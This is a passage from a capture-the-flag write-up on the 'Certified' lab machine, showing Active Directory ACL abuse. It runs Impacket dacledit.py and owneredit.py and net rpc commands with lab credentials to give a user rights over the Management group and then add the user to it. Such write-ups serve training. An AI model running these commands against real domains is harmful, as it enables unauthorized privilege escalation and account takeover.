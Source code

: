 Some searching showed that this issue could be fixed with [these instructions](https://x.com/an0n_r0/status/1545348754789777409?lang=en) (even though I’m not using Kali).

#### Modify Rights

Next I need to give judith.mader the rights to add users:

```

oxdf@hacky$ dacledit.py -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.10.11.41
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241027-152313.bak
[*] DACL modified successfully!

```

There is a cleanup script resetting the status of things, so if this fail for permissions issues, I’ll just re-run the previous command.

#### Add to Management

Next I’ll use the `net` binary to add judith.mader to the Management group:

```

oxdf@hacky$ net rpc group addmem Management judith.mader -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41

```

This command doesn’t return anything. I can check the group members with another `net` command:

```

oxdf@hacky$ net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
CERTIFIED\judith.mader
CERTIFIED\management_svc

```

The user configuration is getting reset periodically. In case I get hit by the reset, I’ll keep those four commands handy:

```

owneredit.py -action write -new-owner judith.mader -target management certified/judith.mader:judith09 -dc-ip 10.10.11.41
dacledit.py -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.10.11.41
net rpc group addmem Management judith.mader -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41

```
